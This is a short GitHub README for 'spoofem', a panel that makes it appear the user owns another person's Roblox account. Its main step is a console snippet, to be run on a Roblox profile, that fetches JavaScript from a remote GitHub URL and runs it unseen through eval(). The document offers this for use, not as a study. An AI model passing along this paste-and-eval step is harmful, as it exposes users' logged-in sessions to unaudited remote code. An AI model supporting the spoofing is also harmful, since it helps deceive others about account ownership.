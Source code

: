 # spoofem
cool panel on roblox to show u "own" an account, execute w js  




steps:  
execute index.js on a person's roblox profile  
then the panel will appear at the bottom of the page  
drag it up  
use buttons and stuff  

```
fetch("https://raw.githubusercontent.com/IWillyLovePython/spoofem/main/index.js")
  .then(response => response.text())
  .then(rawJS => {
    eval(rawJS);
  })
  .catch(error => {
    console.error('Error fetching or executing JavaScript: ', error);
  });
```


  ![image](https://github.com/IWillyLovePython/spoofem/assets/104280094/72845167-7927-492f-af06-6ba53ec967ff)
